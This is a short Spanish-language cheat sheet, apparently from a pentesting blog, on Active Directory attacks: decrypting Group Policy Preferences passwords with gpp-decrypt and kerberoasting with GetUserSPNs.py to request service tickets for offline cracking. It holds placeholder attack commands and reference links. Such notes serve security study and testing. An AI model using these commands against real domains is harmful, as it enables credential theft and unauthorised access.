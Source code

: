 ```yaml
---
layout: post
title: Active Directory CheetSheat
tags: [windows, AD]
description: Active Directory CheetSheat
---
```



## Preferencias de directivas de grupo

- Windows Server 2008

### Gpp-Descifrar
 
```
gpp-decrypt <hash>
```

Más información:  
[https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)  
[https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)

-----

## kerberoasting attack

**Kerberoasting** es una técnica que permite a un atacante robar el `ticket KRB_TGS`, que está encriptado con RC4, para aplicar el hash de los servicios de aplicación de fuerza bruta para extraer su contraseña.

> Kerberos es para autenticación, no para autorización, esta laguna permite el kerberoasting

```
GetUserSPNs.py <dominio>/<user>:<password>
```

### Obtener el TGS

 ```
 GetUserSPNs.py <dominio>/<user>:<password -request
 ```
 
Más información:  
[https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)


